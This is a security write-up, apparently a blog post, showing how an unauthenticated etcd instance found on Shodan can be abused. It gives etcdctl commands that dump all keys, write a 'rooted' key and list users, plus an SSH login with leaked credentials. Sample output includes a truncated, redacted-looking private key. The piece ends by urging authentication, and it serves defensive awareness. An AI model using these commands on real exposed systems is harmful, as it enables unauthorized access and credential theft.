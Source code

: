 # PoC: Hacking Systems via Exposed ETCD Instances

[*Etcd*](https://github.com/etcd-io/etcd) is an open-source distributed key-value store that provides a reliable way to store data across a cluster of machines.  
It's often used as a foundational component in distributed systems, serving as a distributed coordination service for managing configurations, maintaining state, and facilitating communication between different parts of a distributed system.  

Originally developed by CoreOS, etcd is written in Go and uses the **Raft consensus algorithm** to ensure consistency and fault-tolerance.  
It's designed to be highly available, durable, and scalable, making it suitable for use in production environments where reliability and consistency are crucial.  

Some common use cases for etcd include service discovery, leader election, configuration management, and coordination between distributed components.  
It's widely used in container orchestration systems like **Kubernetes**, where it helps manage cluster state and configuration data for containers and their applications.  

It is not uncommon to encounter instances of etcd publicly exposed and lacking authentication measures.  
In such cases, malevolent actors may exploit the API using tools like curl or, preferably, [*etcdctl*](https://github.com/etcd-io/etcd/blob/main/etcdctl/README.md), to perform malicious operations. Here is an example of a real-world scenario.  

## The Scenario
A malicious actor is probing exposed services on [*Shodan*](https://www.shodan.io/) with the following simple query: `etcd`.  
After several attempts, they discover an instance of etcd without authentication and attempt to list the *keys/values* using the following command:  
```console
export ETCDCTL_ENDPOINTS="http://$EXPOSED_IP:2379" \
&& export ETCDCTL_API=3 \
&& etcdctl get --prefix ""
```  

Possible Output:  

```console
/apis/url/
https://my.api.com/v1/users/
apis/token/
wBtkA97eCyqPfQWtGBXf35T5AYbAuKGrQ1Ifq6wgzwjhZXtr87yQDgokSjfiVCVI
/ssh/user/
system
/ssh/pass/
P4SsW0rd_+^"!
```  

> Note  
> the attacker can also list all the etcd peers with this command: `etcdctl member list`  


It's worth noting that, at this juncture, an attacker could potentially inflict damage on the system by deleting and/or modifying the values of the etcd keys.  
In this specific scenario, if the target server also exposes SSH, the attacker might also attempt to gain access using the values of the keys */ssh/user/* and */ssh/pass/*:  

```console
ssh system@$EXPOSED_IP 
system password:  P4SsW0rd_+^"!
```   

The attacker can also add a new key value:  
```console
etcdctl put rooted P4wn3D!🖕
```  

or retrieve etcd users and roles:  
```console
etcdctl user list; etcdctl role list
```  

There have also been instances where [*PostgreSQL*](https://www.postgresql.org/) configurations were stored in one key in etcd, and its credentials in another.  
In that particular scenario, PostgreSQL was also exposed as a service on the server, allowing us to query a list of tables and all the data contained within them.  
Furthermore, we discovered wildcard certificates for the entire domain of a company, intentionally redacted and obscured as follows:  

```console
/apisix/ssl/982578101
{"id":"423764178751193820","create_time":1662112733,"update_time":1689821613,"cert":"-----BEGIN CERTIFICATE-----\nMIIGLDCCBRSgAwIBAgIQCJY\n-----END CERTIFICATE-----\n-----BEGIN CERTIFICATE-----\nMITqCwtukZ7u9VLL3JAq3Wdy2moKLvvC8tVmRzkAe\n0xQCkRKIjbBG80MSyDX/R4uYgj6ZiNT/Zg6GI6RofgqgpDdssLc0XIRQEotxIZcK\nzP3pGJ9FCbMHmMLLyuBd+uCWvVcF2ogYAawufChS/PT61D9rqzPRS5I2uqa3tmIT\n44JhJgWhBnFMb7AGQkvNq9KNS9dd3GWc17H/dXa1enoxzWjE0hBdFjxPhUb0W3wi\n8o34/m8Fxw==\n-----END CERTIFICATE-----\n","key":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAzF/2R4nLsR8JCsX3Pl1kAML/zy0fmBFRXhPWmE7SGYoiWciq\niIalocl4DM7b5KEk5XwsFdMIEovyy0fgTOhquBwI+t35v7BN5b/BV/zNXHlmqqSs\nCITYs+C/7Ez6C0rsC7pyAmOUaAat4FsaSzvm/Z84s2qwtdejcwnv\n-----END RSA PRIVATE KEY-----\n",
"snis":["*.company.com","company.com"],"status":1,"validity_start":1689638400,"validity_end":1723593599}
```  

These are likely SSL/TLS certificates for [*Apache APISIX*](https://github.com/apache/apisix).  
APISIX is an open-source, cloud-native microservices API gateway that it is used for managing and securing (sigh 😔) APIs.  

Here is a list of attacks that a threat actor can probably implement with access to such certificates:  
- **Man-in-the-Middle (MitM) Attacks**
- **Data Interception**
- **Traffic Redirection**
- **Session Hijacking**
- **SSL Stripping**
- **Impersonation Attacks**
- **Replay Attacks**

Keep in mind that it is rare to encounter exposed instances of etcd containing keys with this type of sensitive data, but it has occurred in the past following some reconnaissance efforts.  


This scenario serves as a [*yet another reminder*](../04-04-24/kubernetes.md) to consistently implement robust authentication mechanisms for our systems and to refrain from exposing them to the entire world unless absolutely necessary (which, in 99.99% of cases, it is not).  


<br>  


- [Back to main page](../../../index.md)  